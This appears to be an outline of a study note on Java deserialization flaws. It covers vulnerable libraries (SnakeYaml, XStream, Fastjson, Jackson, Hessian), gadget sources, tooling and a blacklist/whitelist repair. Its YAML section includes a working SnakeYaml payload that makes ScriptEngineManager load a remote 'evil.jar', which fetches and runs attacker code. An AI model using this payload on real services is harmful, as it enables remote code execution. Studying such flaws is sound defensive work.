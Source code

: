 ## `Overall` 
 Object transfer to String, file format and reverse.

## `Scene`
- session stored in database: replace cookie with malicious serialization data
- 


## `Type`
### 1.binary
- readObject()
- Hessian

### 2.yaml
- SnakeYaml
  - yaml.load(input);
```
!!javax.script.ScriptEngineManager[
  !!java.net.URLClassLoader[[
    !!java.net.URL["http://server/evil.jar"]
  ]]  
 ]
```

### 3.xml
- XStream.fromXML()
- 

### 4.json
- Fastjson: autoType
- Jackson: defaultTyping
- Self JSONUtil: JsonToString: setProperty: setter

## `Gadget`
- LDAP/JNDI
  - historical gadget and its essence
- use sensitive function in existed class: set/get


## `Tools`
- Marshasec


## `Repair`

Use blacklist or whitelist to check the target class 
```
(show me the code)
```
